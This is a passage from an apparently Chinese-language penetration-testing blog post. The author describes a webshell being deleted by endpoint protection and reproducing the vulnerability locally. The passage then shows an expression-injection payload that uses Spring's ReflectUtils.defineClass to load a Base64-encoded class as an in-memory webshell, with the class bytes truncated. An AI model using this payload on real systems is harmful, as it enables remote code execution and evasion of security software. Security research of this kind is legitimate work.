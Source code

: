 但是 webshell 写入几秒后就被删了，服务器安装了终端防护软件，既有 360 安全卫士，又有奇安信天擎。

![图片](assets/1706513706-39b594907d4a5e53c88f111a55dd8813.png)

遇到这种情况能想到的解决办法基本上只能写免杀 webshell 了，要不就直接注入内存 webshell，不过因为不是攻防项目，当时就没有继续折腾。最近突然想起这个漏洞，决定本地搭建模拟环境继续折腾一下。

正常情况下，通过下面的方法就可以成功写入内存 webshell。  

```bash
${@org.springframework.cglib.core.ReflectUtils@defineClass('xxxx', @org.springframework.util.Base64Utils@decodeFromString('yv66v...'), new javax.management.loading.MLet(new java.net.URL[0],@java.lang.Thread@currentThread().getContextClassLoader()))}
```

![图片](assets/1706513706-581eaac5d5ba5a7562e91e95fc5f8b2e.png)

